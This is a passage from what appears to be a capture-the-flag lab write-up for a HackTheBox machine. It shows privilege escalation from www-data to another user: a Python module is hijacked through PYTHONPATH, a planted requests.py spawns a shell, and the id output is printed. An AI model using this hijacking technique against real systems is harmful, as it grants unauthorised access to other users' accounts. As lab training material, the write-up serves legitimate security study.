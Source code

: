 We have RCE!! Getting a reverse shell now is trivial.

## Inside the machine as `www-data`

Once in the machine I started checking things here and there and this called my attention:

```bash
www-data@updown:/home/developer/dev$ ls -l
total 24
-rwsr-x--- 1 developer www-data 16928 Jun 22 15:45 siteisup
-rwxr-x--- 1 developer www-data   154 Jun 22 15:45 siteisup_test.py
```

```python
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
    print "Website is up"
else:
    print "Website is down"
```

The binary is a SUID binary owned by the user `developer` so if we can control the execution of it we could impersonate that user. Testing both the binary and the Python script looks like the binary was compiled from the Python script (or at least a really similar one).

Checking a bit the Python [documentation](https://docs.python.org/2/tutorial/modules.html#the-module-search-path){:target="_blank"}, I found that before checking for installed modules in the typical installation directories, Python will try to check both the current directory and also the `PYTHONPATH` environment variable trying to find the requested module. We can't write in the directory where this script is located but we can set that environment variable and point it to a directory we control:

```
export PYTHONPATH=/tmp
```

Now we create a file called `requests.py` in the `/tmp` directory with this content:

```
import pty

pty.spawn("/bin/sh")
```

Everythinng is ready now, we can execute the binary to start impersonating the `developer` user!

```
www-data@updown:/tmp$ /home/developer/dev/siteisup
Welcome to 'siteisup.htb' application

$ id
uid=1002(developer) gid=33(www-data) groups=33(www-data)
```

